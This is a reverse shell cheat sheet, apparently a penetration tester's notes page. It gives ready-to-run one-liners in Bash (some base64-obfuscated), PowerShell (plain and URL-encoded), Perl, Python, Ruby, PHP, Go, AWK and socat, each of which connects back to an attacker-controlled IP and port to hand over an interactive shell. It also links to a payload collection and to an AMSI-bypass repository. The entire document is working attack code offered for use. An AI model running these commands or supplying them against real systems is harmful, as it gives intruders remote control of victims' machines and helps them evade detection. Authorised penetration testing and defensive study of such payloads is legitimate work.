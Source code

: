 # Bash
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1337 >/tmp/f
```
```
nc -e /bin/sh 10.10.10.10 1337
```
```
bash -i >& /dev/tcp/IP ADDRESS/8080 0>&1
```

# Bash B64 Obfuscated
```
{echo,COMMAND_BASE64}|{base64,-d}|bash 
echo${IFS}COMMAND_BASE64|base64${IFS}-d|bash
bash -c {echo,COMMAND_BASE64}|{base64,-d}|{bash,-i} 
echo COMMAND_BASE64 | base64 -d | bash 
```

# Powershell (change IP and port)
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

# Powershell (URL encoded // change IP and port)
```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

# Perl
```
perl -e 'use Socket;$i="IP ADDRESS";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

# Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP ADDRESS",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

# Python 
(use to get a TTY shell from NC or whatever reverse shell)
```
python -c '__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1337 >/tmp/f')-1\'
```

# Python IPv6
```
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");' 
```

# Ruby
```
ruby -rsocket -e'f=TCPSocket.open("IP ADDRESS",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[IPADDR]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

# PHP
http://pentestmonkey.net/tools/web-shells/php-reverse-shell
```
/usr/share/webshells/php/php-reverse-shell.php
```
```
php -r '$sock=fsockopen("IP ADDRESS",1337);exec("/bin/sh -i <&3 >&3 2>&3");'
$sock, 1=>$sock, 2=>$sock), $pipes);?>
```

# Golang
```
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","IP ADDRESS:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

# AWK
```
awk 'BEGIN {s = "/inet/tcp/0/IP ADDRESS/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

# Socat
```
socat TCP4:10.10.10.10:443 EXEC:/bin/bash
# Socat listener
socat -d -d TCP4-LISTEN:443 STDOUT
```
